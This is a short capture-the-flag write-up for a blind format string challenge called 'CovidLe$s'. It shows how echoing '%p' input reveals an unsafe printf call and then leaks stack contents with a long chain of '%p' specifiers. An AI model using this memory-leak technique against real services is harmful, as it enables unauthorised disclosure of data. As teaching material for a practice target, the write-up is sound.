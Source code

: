 # CovidLe$s

## Challenge

Fully blind printf challenge.

No prompt when we connect.

if we type an input it is echoed back like so:

```
a
Your covid pass is invalid : a
try again ..
```

We are put in an infinite loop of this function:

```
a
Your covid pass is invalid : a
try again ..

b
Your covid pass is invalid : b
try again ..

c
Your covid pass is invalid : c
try again ..
```

## Solution

We first check for a format string vulnerability using an input with a format specifier:

```
%p
Your covid pass is invalid : 0x20
try again ..
```

The `%p` was replaced with `0x20`, so we know that our input is being handled like:

```c
printf(input);
```

If we write a lot of `%p`s we can get a look at the stack:

```
%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
Your covid pass is invalid : 0x400934 (nil) (nil) 0x633785efb4c0 0x633785cda8d0 0x74346e3143633456 0x505f44315f6e6f31 0x5379334b5f763172 0x5f74304e6e34635f 0xa6b34336c (nil) 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0xa7025207025 0x7680e5ae9bd0 0x452ac1aa9da7a00 0x400890 0x63378590eb97 0x1 0x7680e5ae9bd8 0x100008000 0x40075a (nil) 0x76dc8df8c37d7ab4 0x400650 0x7680e5ae9bd0 (nil) (nil) 0x9bdd4625e45d7ab4
try again ..
```
